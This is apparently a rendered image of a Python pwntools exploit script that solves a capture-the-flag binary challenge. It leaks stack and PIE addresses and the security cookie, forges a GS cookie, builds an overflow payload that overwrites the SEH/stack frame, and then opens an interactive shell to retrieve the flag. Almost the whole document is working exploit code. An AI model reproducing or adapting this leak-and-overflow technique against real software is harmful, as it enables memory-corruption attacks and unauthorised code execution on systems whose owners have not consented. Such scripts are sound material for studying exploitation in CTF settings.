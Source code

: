 ```

def Multi_Attack():
    # testnokill.__main__()
    return

def Attack(sh=None,ip=None,port=None):
    if ip != None and port !=None:
        try:
            sh = remote(ip,port)
        except:
            return 'ERROR : Can not connect to target server!'
    try:
        # Your Code here
        stack_address = get_address(sh=sh,info="[+] STACK ADDRESS IS ",start_string="stack address = 0x",end_string="x0A",int_mode=True)
        PIE_address   = get_address(sh=sh,info="[+] PIE ADDRESS IS ",start_string="main address = 0x",end_string="x0A",offset=-0x10B0,int_mode=True)
        sh.recvuntil('Do you want to know more?')
        sh.sendline('yes')
        sh.recvuntil('Where do you want to know')
        sh.sendline(str(PIE_address + 0x4004))

        security_cookie = get_address(sh=sh,info="[+] Security Cookie IS ",start_string=" value is 0x",end_string="x0A",int_mode=True)
        GS_Cookie = (stack_address + 0x9C) ^ security_cookie

        payload  = 'a' * 0x10
        payload += p32(0x0FFFFFFFE)
        payload += p32(0)
        payload += p32(0x0FFFFFFCC)
        payload += p32(0)
        payload += p32(0xFFFFFFFE)
        payload += p32(PIE_address + 0x138D)
        payload  = payload.ljust(0x78 - 0x10, 'b')
        payload += p32(GS_Cookie)
        payload += 'c' * 0x20
        payload += p32(stack_address + 0xD4)
        payload += p32(PIE_address + 0x1460)
        payload += p32((stack_address + 0x10) ^ security_cookie)
        payload += p32(0)
        payload += 'd' * 0x10
        sh.recvuntil('Do you want to know more?')
        # get_gdb(sh)
        sh.sendline('noo')
        sh.sendline(payload)
        sh.recvuntil('Do you want to know more?')
        sh.sendline('yes')
        sh.recvuntil('Where do you want to know')
        sh.sendline('0')
        sh.interactive()
        flag=get_flag(sh)
        sh.close()
        return flag
    except Exception as e:
        traceback.print_exc()
        sh.close()
        return 'ERROR : Runtime error!'

if __name__ == "__main__":
    os.system("")
    sh = get_sh()
    flag = Attack(sh=sh)
    log.success('The flag is ' + re.search(r'flag`{`.+`}`',flag).group())
```